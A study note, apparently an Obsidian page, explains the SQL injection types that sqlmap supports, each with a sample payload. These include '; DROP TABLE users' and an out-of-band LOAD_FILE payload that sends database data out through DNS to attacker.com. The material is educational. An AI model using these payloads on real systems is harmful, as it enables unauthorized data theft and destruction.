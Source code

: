 ```yaml
---
{"dg-publish":true,"permalink":"/sqlmap-injection-types/"}
---
```


![image-1-25.webp|537x234](/img/user/image-1-25.webp)


<div class="transclusion internal-embed is-loaded"><a class="markdown-embed-link" href="/in-band-sql-injection/" aria-label="Open link"><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="svg-icon lucide-link"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a><div class="markdown-embed">




The output of both the intended and the new query may be **printed directly on the front end**, and we can directly read it.

In-Band SQL Injection is the easiest type to detect and exploit; In-Band just refers to the same method of communication being used to exploit the vulnerability and also receive the results, for example, discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.

- [[SQLMAP - Injection Types#Union query-based\|SQLMAP - Injection Types#Union query-based]]
- [[SQLMAP - Injection Types#Error-based\|SQLMAP - Injection Types#Error-based]]

</div></div>



<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">





- [[#Boolean-based blind]]
- [[#Time-based blind]]

</div></div>


## `Out of Band` SQL Injection

- [[SQLMAP - Injection Types#Out-of-band SQL Injection\|SQLMAP - Injection Types#Out-of-band SQL Injection]]

## Injection flags


The technique characters `BEUSTQ` refers to the following:

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries

## Boolean-based blind

```sql
AND 1=1
```

- SQLMap exploits `Boolean-based blind SQL Injection` vulnerabilities through the differentiation of `TRUE` from `FALSE` query results, effectively retrieving 1 byte of information per request.
- This ranges from fuzzy comparisons of raw response content, HTTP codes, page titles, filtered text, and other factors.

## Error-based

```sql
AND GTID_SUBSET(@@version,0)
```

- If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.
## Union query-based

```sql
UNION ALL SELECT 1,@@version,3
```

- With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results.
- This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.
- We may have to specify the exact location, 'i.e., column', which we can read, so the query will direct the output to be printed there.
## Stacked queries

```sql
; DROP TABLE users
```

- Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one.
- In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., [[db/Microsoft SQL Server\|Microsoft SQL Server]] and [[PostgreSQL\|PostgreSQL]] support it by default).
## Time-based blind

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

- The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.
	
	- `TRUE` response is generally characterized by the noticeable difference in the response time compared to the regular server response
	    
	- `FALSE` response should result in a response time indistinguishable from regular response times
## Inline queries

```sql
SELECT (SELECT @@version) from
```
- This type of injection embedded a query within the original query. 
## Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

- This is considered one of the most advanced types of SQLi.
- Used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g. time-based blind SQLi)
- SQLMap supports out-of-band SQLi through "[[DNS exfiltration\|DNS exfiltration]]," 
	- Requested queries are retrieved through DNS traffic.

- By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`)
- SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`)
- where `foo` would be the SQL response we want to receive
- SQLMap can then collect these erroring DNS requests and collect the `foo` part
- to form the entire SQL response.